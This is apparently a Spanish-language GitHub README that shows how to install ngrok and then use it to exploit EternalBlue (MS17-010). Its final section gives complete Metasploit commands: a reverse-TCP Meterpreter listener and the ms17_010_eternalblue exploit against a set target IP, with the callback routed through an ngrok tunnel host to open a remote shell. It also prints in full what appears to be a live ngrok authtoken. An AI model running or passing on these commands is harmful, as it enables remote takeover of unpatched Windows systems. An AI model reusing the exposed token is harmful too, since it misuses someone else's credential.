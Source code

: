 Ngrok
================

Descarga e Instalación
---------------------------------------------------

Ingrese a ngrok: https://ngrok.com/

![image](https://user-images.githubusercontent.com/50930193/170136583-5c92913b-2d15-46ab-896c-9f5f0301ed5e.png)

Crear una cuenta

![image](https://user-images.githubusercontent.com/50930193/170136734-fa6e3edb-a054-4da7-b211-b341ad92acec.png)

Descargar el ngrok, descomprimirlo y 

![image](https://user-images.githubusercontent.com/50930193/166869422-e43a2d0a-00cb-4aae-8bf5-4e58372cac73.png)

```
unzip /path/to/ngrok.zip
```
Incluir el token asignado a su usuario
```
./ngrok config add-authtoken 1eIYtv2l1jl2MNxkFcMbrsRyrh1_5DmN92ELBPd9MNZbd4Q2a
```
![image](https://user-images.githubusercontent.com/50930193/170138858-c2f36ce3-82c3-4bf9-9533-27dabe0b1f51.png)


Uso
---------------------------------------------------
Usar ngrok en el puerto 1234

```
./ngrok tcp 1234
```

![image](https://user-images.githubusercontent.com/50930193/170138987-c719fe73-fa98-4009-9f54-2773e5cf0c8d.png)


Explotación de Eternalblue
---------------------------------------------------
1. Ejecutar ngrok
```
./ngrok tcp 80
```
![image](https://user-images.githubusercontent.com/50930193/170810197-a2b722eb-7e6f-4e42-b8e9-d192f30c2260.png)

2. Ejecutar un listener
```
msfconsole -q
search multi/handler
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set exitfunc thread
set lhost 127.0.0.1
set lport 80
set exitonsession false
exploit -j -z
```
3. Ejecutar un listener
```
msfconsole -q
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
set RHOSTS  192.168.109.174
set LHOST 0.tcp.sa.ngrok.io
set LPORT 14696
set RPORT 445
exploit
```

![image](https://user-images.githubusercontent.com/50930193/170810358-bebcd2e6-2005-4068-8bc9-8ee9a140e47b.png)
